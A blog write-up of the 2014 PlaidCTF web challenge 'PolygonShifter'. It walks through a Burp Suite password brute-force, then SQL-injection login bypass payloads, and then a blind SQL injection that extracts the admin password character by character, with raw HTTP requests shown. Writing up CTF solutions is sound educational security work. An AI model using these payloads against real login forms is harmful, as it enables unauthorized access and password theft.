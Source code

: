 ```yaml
---
id: 1873
title: 'PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)'
date: '2014-04-17T12:55:06-05:00'
author: 'Ron Bowes'
layout: post
guid: 'https://blog.skullsecurity.org/?p=1873'
permalink: /2014/plaidctf-writeup-for-web-100-blind-sql-injection
categories:
    - Hacking
    - 'PlaidCTF 2014'
    - Tools
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!  
  
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

```

<span class="htmlTag"><</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">"/S1tl90gme2GJ67epbZz9"</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">"POST"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">""</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">"text-align:left;"</span><span class="htmlTag">></span>Username<span class="htmlEndTag"></</span><span class="htmlTagName">label</span><span class="htmlEndTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"text"</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">"lK1TFqrcp3fvIRSg8V7T"</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">"L1UIVbxzFD8wUUo8SaJH"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">"LkW7Ye9ItPb8CGeKZrMU"</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">"text-align:left;"</span><span class="htmlTag">></span>Password<span class="htmlEndTag"></</span><span class="htmlTagName">label</span><span class="htmlEndTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"password"</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">"LkW7Ye9ItPb8CGeKZrMU"</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">"LmmURBa3S5NRYBwzHXhC"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">"primary large"</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"submit"</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">"Login"</span><span class="htmlTag">></span>
<span class="htmlEndTag"></</span><span class="htmlTagName">form</span><span class="htmlEndTag">></span>
```

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided—incorrectly—that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

```

<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&FcZtaYem0HE0t9bQQCTE=§password§</span>
```

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". \*facepalm\*, it's sql injection!

So, I tried logging in with:

- Username :: admin
- Password :: ' or 1=1--

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

- Username :: admin
- Password :: ' or username='admin'--

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

```

<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
```

To clean it up, it's basically:

- Username :: admin
- Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

- $1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)
- $2 :: custom set, a-z A-Z 0-9 + symbols

Then I let it run, filtered for 'Hello', and got the following results:

![](https://blogdata.skullsecurity.org/polygonshifter-solution.png)

Boom! Arrange those properly and you have your password. :)